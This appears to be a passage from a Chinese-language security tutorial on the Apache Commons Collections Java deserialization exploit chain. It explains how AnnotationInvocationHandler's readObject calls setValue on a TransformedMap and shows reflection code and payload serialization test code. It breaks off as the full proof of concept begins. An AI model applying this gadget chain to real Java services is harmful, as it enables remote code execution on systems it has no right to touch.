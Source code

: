 **2、看下readObject方法**
![image.png](http://moonsec.top/articlepic/e58b91b2267a83b4074cf23be087075b.png)
```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        //默认反序列化
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();//
        Iterator var4 = this.memberValues.entrySet().iterator();//获取我们构造map的迭代器

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();//遍历map迭代器
            String var6 = (String)var5.getKey();//获取key的名称
            Class var7 = (Class)var3.get(var6);//获取var2中相应key的class类？这边具体var3是什么个含义不太懂，但是肯定var7、8两者不一样
            if (var7 != null) {
                Object var8 = var5.getValue();//获取map的value
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    //两者类型不一致，给var5赋值！！具体赋值什么已经不关键了！只要赋值了就代表执行命令成功
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
}
```
**memberValues**就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它 的所有元素，并依次设置值。
在调用**setValue**设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们为其精心设计的任意代码。
创建个sun.reflect.annotation.AnnotationInvocationHandler实例化对象并将前面构造的 HashMap设置进来。
因为sun.reflect.annotation.AnnotationInvocationHandler是JDK内部的类。不能直接使 用new来实例化。我使用反射获取到了它的构造方法，并将其设置成外部可见的，再调用就可以实例化。
```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
```
然后把组合好的POC,运行看看能不能反序列成功。
为了测试方便，我们后续的代码在模拟反序列化的时候通过写入和读取文件来进行模拟，代码的样式如下：
```java
   //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(transformerChain);

        //服务端反序列化payload读取
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化成ChainedTransformer格式，并在服务端自主传入恶意参数input
        Transformer transformerChain_now = (ChainedTransformer) fin.readObject();
        transformerChain_now.transform(null);
```
**完整的POC代码如下**：
```java
import org.apache.commons.collections.Transformer;
```